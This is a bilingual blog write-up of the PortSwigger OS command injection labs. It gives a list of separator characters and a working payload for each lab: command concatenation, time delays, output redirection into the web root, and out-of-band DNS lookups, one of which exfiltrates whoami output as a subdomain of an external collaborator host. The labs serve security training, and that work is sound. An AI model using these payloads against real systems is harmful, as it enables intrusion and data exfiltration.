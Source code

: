 ```yaml
---
layout: single
title: OS Command Injection - PortSwigger
excerpt: "All OS Command Injection labs of PortSwigger."
date: 2025-09-24
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - OS Command Injection
---
```



## Identification

```
 &&
 &
 ||
 |
 ;
 `
 '
 "
 0x0a
 \n
```

## Inyección de comandos, caso simple || OS command injection, simple case

![](/img2/Pasted%20image%2020250924172159.png)

> By corrupting the query, we see that we are within the context of command execution.

![](/img2/Pasted%20image%2020250924172249.png)

> We concatenate our command using a ;. The underlying command would look like this:

```bash
sh -c bash /home/peter-GPnOhF/stockreport.sh 1 1;whoami
```

- Injection 

```bash
;whoami
```
## Inyección ciega con retrasos temporales || Blind OS command injection with time delays

![](/img2/Pasted%20image%2020250924180005.png)

> By using backticks, we execute a command to check if it is vulnerable.

- Injection

```bash
`sleep 10`
```

## Inyección ciega con redirección de salida || Blind OS command injection with output redirection

![](/img2/Pasted%20image%2020250924183354.png)

> First, we detect command injection using a sleep.

![](/img2/Pasted%20image%2020250924183137.png)

![](/img2/Pasted%20image%2020250924183152.png)

> We send the output to a file inside the images directory `/var/www/images/`.

- Injection

```bash
`whoami` >> /var/www/images/test.txt
```

## Inyección ciega con interacción OOB || Blind OS command injection with out-of-band interaction

![](/img2/Pasted%20image%2020250924184546.png)

![](/img2/Pasted%20image%2020250924184559.png)

> In this case, we cannot force a delay in the response; however, we can detect the vulnerability via a DNS request.

- Injection

```bash
`nslookup 6ahsp7n9bzragcunrr7b18q6gxmpafy4.oastify.com`
```

## Inyección ciega con exfiltración vía interacción OOB || Blind OS command injection with out-of-band data exfiltration

![](/img2/Pasted%20image%2020250924184849.png)

![](/img2/Pasted%20image%2020250924184859.png)

> Just like the previous lab, we detect the vulnerability through a DNS request.

![](/img2/Pasted%20image%2020250924185022.png)

![](/img2/Pasted%20image%2020250924185053.png)

> Mediante el uso del operador $() de bash, hacemos una petición a nuestro domino con el output del comando whoami como subdominio.

- Injección

```bash
`nslookup $(whoami).c5iykdif65mgbiptmx2hwelcb3hw5mtb.oastify.com`
```